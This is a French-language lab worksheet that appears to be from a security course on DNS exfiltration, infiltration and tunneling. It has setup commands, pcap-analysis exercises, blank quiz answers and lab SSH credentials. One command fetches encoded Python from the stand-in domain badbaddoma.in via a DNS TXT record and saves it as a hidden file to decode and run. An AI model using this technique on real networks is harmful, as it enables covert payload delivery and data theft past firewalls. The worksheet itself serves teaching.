 ## Manipulation de DNS

Lors de ce TP nous explorerons les techniques utilisées pour exfiltrer et infiltrer les données à travers des serveurs DNS.<br/>

A quoi servent les serveurs DNS ?<br/>
Le DNS est un système de noms de domaine faisant référence à un système de nommage qui résout les noms de domaine avec des adresses IP. Les serveurs DNS sont répartis dans le monde entier et sont constamment mis à jour et synchronisés entre eux de manière systématique.
<p align="center">
  <img src="https://blog.nameshield.com/fr/wp-content/uploads/sites/3/2017/04/r%C3%A9solution-dns-2-5.jpg"/>
</p>

L'objet sera d'explorer les techniques pour exfiltrer et infiltrer les données ainsi que le Tunneling de DNS Tunneling et comment il peut être utilisé pour bypasser différents protocoles comme HTTP via DNS.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/798809211060355092/intro-2-1.png"/>
</p>

##### Installation de l'environnement de travail pour le TP :

```console
$ git clone https://github.com/kleosdc/dns-exfil-infil

$ sudo apt-get update
$ sudo apt-get install python3-pip
$ export PATH=/usr/local/bin:$PATH

$ sudo pip3 install base58
$ sudo pip3 install pyshark
```

Iodine permet de tunneler les données IPv4 via un serveur DNS. Cela peut être utile dans différentes situations où l'accès Internet est protégé par un pare-feu, mais les requêtes DNS sont autorisées.

Installer iodine :
```console
$ sudo apt-get install iodine
```

Wireshark est un analyseur de paquets libre et gratuit. 

Installer Wireshark :
```console
$ sudo apt-get install tshark
```

---

#### DNS :

Sous Windows, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : 
```

Sous Linux, quelle commande utiliser pour requêter un enregistrement txt pour Facebook.com ?
```console
Réponse : 
```

Quel type d'adresses IP stocke le AAAA avec le nom de hôte ?
```console
Réponse : 
```

Le nombre maximum de caractères pour un enrigrement DNS est de 256. Vrai/Faux ?
```console
Réponse : 
```

Quel enregistrement DNS donne le nom du domaine en reverse-lookup ?
```console
Réponse : 
```

Quel serait le résultat d'un reverse-lookup pour l'adresse IPv4 suivante : 192.168.203.2 ?
```console
Réponse : 
```

Quelle est la taille maximale d'un nom DNS ? (en incluant les points!)
```console
Réponse : 
```

---

#### Exfiltration DNS :

L'exfiltration DNS est une technique qui consiste à utiliser le DNS pour dérober des données.<br/>
Cette technique est principalement utilisée comme moyen de collecter des informations personnelles telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.<br/>
Cela consiste à ajouter des chaînes contenant le « butin » souhaité aux requêtes DNS UDP. La chaîne contenant le butin est alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes. Pour un oeil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

Se connecter à la machine cible en SSH en utilisant les crédentials :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

Le .pcap extension de fichier est principalement associée avec Wireshark; un programme utilisé pour l'analyse de réseaux. .pcap fichiers sont des fichiers de données créés en utilisant le programme et ils contiennent les données en paquets d'un réseau. Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
Réponse :
```

Le script ~/dns-exfil-infil/packetyGrabber.py permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transation ? 
```console
Réponse : 
```

Quel est le montant de la transaction Firewall ?
```console
Réponse : 
```

Aller dans le dossier ci-dessous :
```console
~/challenges/exfiltration/identity
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
Réponse :
```

Quel fichier contient des requêtes DNS douteuses ?
```console
Réponse : 
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : 
```

---

#### Infiltration DNS :

L'infiltration DNS est une autre technique d'attaque qui exploite les vulnérabilités des DNS. Cette technique passe par un code malveillant qui est exécuté pour manipuler les serveurs DNS soit à l'aide de systèmes automatisés qui permettent aux attaquants de se connecter à distance à l'infrastructure réseau, soit à l'aide de programme frauduleux.<br/>
Le but étant souvent de supprimer des fichiers ou d'exécuter du code sur les machines ciblées.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>
</p>

Récupérer un enregistrement au format TXT du sous-domaine `code` du domaine `badbaddoma.in` : 
```console
$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
```

Le contenu représente du code python crypté.<br/>
Décrypter le contenu avec le script python ~/dns-exfil-infil/packetySimple.py :
```console
$ python3 ~/dns-exfil-infil/packetySimple.py
```

Exécuter le script et afficher le résultat :
```console
Réponse : 
```
